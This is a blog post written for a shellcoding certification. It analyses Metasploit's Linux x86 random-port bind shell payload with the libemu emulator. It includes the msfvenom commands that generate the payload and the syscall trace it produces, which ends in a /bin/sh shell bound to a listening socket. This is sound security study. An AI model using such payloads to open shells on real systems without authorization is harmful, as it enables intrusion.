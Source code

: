 ```yaml
---
layout: post
title: "Analyzing Metasploit linux/x86/shell_bind_tcp_random_port module using Libemu"
date: 2017-05-06 12:00:00
share: true
comments: true
tags: [Exploit Development, Shellcoding, SLAE, OSCE Prep]
---
```


_This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)._
_**Student ID:** SLAE-885_
_**Assignment number:** 5.2_
_**Github repo:** <https://github.com/abatchy17/SLAE>_  

---
  
In the second part of assignment 5 in SLAE, I'll be analyzing the `linux/x86/shell_bind_tcp_random_port` module using Libemu.  


## 1\. Setting payload parameters

  
First let's check the options for this module.  

```console
root@kali:~/Desktop/libemu/tools/sctest# msfvenom -p linux/x86/shell_bind_tcp_random_port --payload-options  
Options for payload/linux/x86/shell_bind_tcp_random_port:  
  
  
       Name: Linux Command Shell, Bind TCP Random Port Inline  
     Module: payload/linux/x86/shell_bind_tcp_random_port  
   Platform: Linux  
       Arch: x86  
Needs Admin: No  
 Total size: 57  
       Rank: Normal  
  
Provided by:  
    Geyslan G. Bem <geyslan@gmail.com>  
  
Description:  
  Listen for a connection in a random port and spawn a command shell.   
  Use nmap to discover the open port: 'nmap -sS target -p-'.  
```    

  
I skipped over the advanced settings as they won't be discussed in this post. Lucky for us, this payload doesn't require any options as it will bind to the local IP and choose a port randomly (you'll use nmap to find that port).  
  
---


## 2\. Analyzing payload with libemu

After you install `libemu` (you might need to install a few packages like `autoconf` and `libtool`) let's pipe the raw output to ScTest (Iterate 1000 times with verbose output).

```console
root@kali:~/Desktop/libemu/tools/sctest# msfvenom -p linux/x86/shell_bind_tcp_random_port -f raw | ./sctest -vvv -Ss 10000  
verbose = 3  
No platform was selected, choosing Msf::Module::Platform::Linux from the payload  
No Arch selected, selecting Arch: x86 from the payload  
No encoder or badchars specified, outputting raw payload  
Payload size: 57 bytes  
```

```cpp
int socket (  
     int domain = 2;  
     int type = 1;  
     int protocol = 0;  
) =  14;  
int listen (  
     int s = 14;  
     int backlog = 0;  
) =  0;  
int accept (  
     int sockfd = 14;  
     sockaddr_in * addr = 0x00000000 =>   
         none;  
     int addrlen = 0x00000002 =>   
         none;  
) =  19;  
int dup2 (  
     int oldfd = 19;  
     int newfd = 14;  
) =  14;  
int dup2 (  
     int oldfd = 19;  
     int newfd = 13;  
) =  13;  
int dup2 (  
     int oldfd = 19;  
     int newfd = 12;  
) =  12;  
int dup2 (  
     int oldfd = 19;  
     int newfd = 11;  
) =  11;  
int dup2 (  
     int oldfd = 19;  
     int newfd = 10;  
) =  10;  
int dup2 (  
     int oldfd = 19;  
     int newfd = 9;  
) =  9;  
int dup2 (  
     int oldfd = 19;  
     int newfd = 8;  
) =  8;  
int dup2 (  
     int oldfd = 19;  
     int newfd = 7;  
) =  7;  
int dup2 (  
     int oldfd = 19;  
     int newfd = 6;  
) =  6;  
int dup2 (  
     int oldfd = 19;  
     int newfd = 5;  
) =  5;  
int dup2 (  
     int oldfd = 19;  
     int newfd = 4;  
) =  4;  
int dup2 (  
     int oldfd = 19;  
     int newfd = 3;  
) =  3;  
int dup2 (  
     int oldfd = 19;  
     int newfd = 2;  
) =  2;  
int dup2 (  
     int oldfd = 19;  
     int newfd = 1;  
) =  1;  
int dup2 (  
     int oldfd = 19;  
     int newfd = 0;  
) =  0;  
int execve (  
     const char * dateiname = 0x00416fb6 =>   
           = "/bin//sh";  
     const char * argv[] = [  
           = 0xffffffff =>   
             none;  
     ];  
     const char * envp[] = 0x00000000 =>   
         none;  
) =  0;  
```    

  
Lots of debug info, but let's focus on the syscalls being made. To make it easier, sctest allows us to create a visual representation of the flow.  

```console
root@kali:~/Desktop/libemu/tools/sctest# msfvenom -p linux/x86/shell_bind_tcp_random_port -f raw | ./sctest -vvv -Ss 10000 -G tcp_random_port.dot  
  
.. redacted..  
  
root@kali:~/Desktop/libemu/tools/sctest# ls  
dot.c        Makefile.in  sctest          sctest-sctestmain.o  tests.c  
dot.h        nanny.c      sctest-dot.o    sctest-tests.o       tests.h  
Makefile     nanny.h      sctestmain.c    sctest-userhooks.o   userhooks.c  
Makefile.am  options.h    sctest-nanny.o  tcp_random_port.dot  userhooks.h  
root@kali:~/Desktop/libemu/tools/sctest# dot tcp_random_port.dot -T png > tcp_random_port.png  
```    

[![](http://i.imgur.com/MH3L6qb.png)](http://i.imgur.com/MH3L6qb.png)

---

#### 1\. `socket()`

```cpp
int socket (  
     int domain = 2;  
     int type = 1;  
     int protocol = 0;  
) =  14;  
```    

Same call we made for both bind and reverse shell previously, creating a socket that supports TCP communication, sockfd returned is 14.

#### 2\. `listen()`

```
int listen (  
     int s = 14;  
     int backlog = 0;  
) =  0;  
```

Next, it starts a listener for incoming connections on sockfd. Note: `bind()` is not required and a random port is picked. Instead you'll need to scan the host for open ports. More info here: http://stackoverflow.com/questions/12763268/why-is-bind-used-in-tcp-why-is-it-used-only-on-server-side-and-not-in-client  

---

#### 3\. `accept()`

```cpp
int accept (  
     int sockfd = 14;  
     sockaddr_in * addr = 0x00000000 =>   
         none;  
     int addrlen = 0x00000002 =>   
         none;  
) =  19;  
```

When there's an incoming connection on the socket created earlier, accept it without storing the client data `sockaddr_in`. New sockfd is 19.  

---

#### 4\. `dup2()`

Next, the traffic is redirected to the newly created socket (19) by calling `dup2()`, which will duplicate the STDIN,STDOUT and STDERR to the socket. Notice that there's a loop using ECX as an index, ECX's value is pulled from the latest value pushed onto stack.  
  
After `accept()`, there's a `POP ECX` command, which will now contain the value last pushed into stack. If you scroll up you'll find that it was a `PUSH EAX`.
EAX contains `sockfd` returned from `socket()`. This allows us to use a small number without worrying too much about looping too much.  
  
Of course, this logic any error check, but you don't have that luxury while shellcoding.  

---

#### 5\. `execve()`

  
This part is simple, it's simply calls a `/bin/sh` shell.  
  
\- Abatchy


